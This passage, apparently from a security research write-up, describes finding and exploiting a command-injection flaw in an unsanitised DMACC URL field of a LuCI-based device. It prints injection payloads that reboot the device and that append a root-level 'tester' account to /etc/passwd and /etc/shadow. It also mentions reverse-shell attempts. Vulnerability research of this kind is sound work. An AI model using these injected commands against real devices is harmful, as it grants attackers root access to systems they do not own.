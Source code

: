 Grepping for dmacc3 within the luci folder, there is a reference to controller/admin/settings.lua. Opening that file up, this function appears to utilize text placed in that field with no sanitization. ![](images/16.png)

Thus, this field was injectable. When a line like '; reboot;# is placed at the end of a DMACC URL string, the device reboots. Several attempts were made, like attempting to utilize sed to change the /bin/false in /etc/passwd, invoking a reverse shell, and others, before a successful approach was identified. Since the device runs all binaries as root, it is possible to edit any file on the system. By appending a new user account to the /etc/passwd and /etc/shadow files, a user "tester" with the password "testtest" is created in the system: ![](images/17.png) ![](images/18.png)
```
'; echo 'tester:$6$npapnF1GfqtUSVWY$vA1CApnnjXxQiIXMl2JKhpnS0V.g0cTNx2HDGvxeURrhTMjjQsO2DN6ec6hLjAG2Ao2yZiPgE4GdbbgvuCBf9/:::::::' >> /etc/shadow; # 
'; echo "tester:x:0:0:tester:/bin/ash" >> /etc/passwd; #
```